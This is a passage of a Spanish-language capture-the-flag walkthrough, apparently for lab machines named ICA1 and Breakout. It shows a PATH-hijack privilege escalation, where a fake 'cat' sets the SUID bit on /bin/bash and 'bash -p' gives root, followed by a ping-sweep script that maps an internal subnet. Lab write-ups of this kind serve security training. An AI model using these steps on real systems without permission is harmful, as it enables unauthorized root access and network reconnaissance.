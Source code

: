 b. Creamos un fichero con el nombre de **cat** el cual contenga `chmod +s /bin/bash` y le damos permisos de ejecución, alteramos nuestro **PATH** para que se tome como prioridad la ruta **`/tmp`**

```bash
dexter@debian:/tmp$ echo -n 'chmod +s /bin/bash' > cat
dexter@debian:/tmp$ chmod +x cat
dexter@debian:/tmp$ export PATH=/tmp:$PATH
dexter@debian:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

* Ahora ejecutamos de nuevo el binario SUID y veremos que se cambiaron los permisos de la **bash**

    ```bash
    dexter@debian:/tmp$ /opt/get_access
    dexter@debian:/tmp$ ls -la /bin/bash
    -rwsr-sr-x 1 root root 1234376 Aug  4  2021 /bin/bash
    ```

c. Por últimos nos convertimos en root con `bash -p`

```bash
dexter@debian:/home/dexter$ bash -p
bash-5.1# whoami
root
```

## **Vulnerando la Máquina Breakout** 🤖

a. Vemos las interfaces de red en la **Máquina ICA1**

```bash
bash-5.1# hostname -I
10.0.2.5 192.168.100.27
```
> Tenemos una segunda interfaz de red en el segmento **10.0.2.0/24**

b. Escaneamos por hosts activos en esta subred con un script en bash

* **hosts.sh**

    ```bash
    #!/bin/bash

    greenColour="\e[0;32m\033[1m"
    endColour="\033[0m\e[0m"
    blueColour="\e[0;34m\033[1m"

    for host in $(seq 1 255);do
        timeout 1 bash -c "ping -c 1 10.0.2.$host" &>/dev/null && echo -e "${greenColour}[+] Host Activo:${endColour} ${blueColour}10.0.2.$host${endColour}" &
    done; wait
    ```

    ```bash
    bash-5.1# ./hosts.sh 
    [+] Host Activo: 10.0.2.5 (ICA1)
    [+] Host Activo: 10.0.2.4 (Breakout)
    [+] Host Activo: 10.0.2.1
    ```
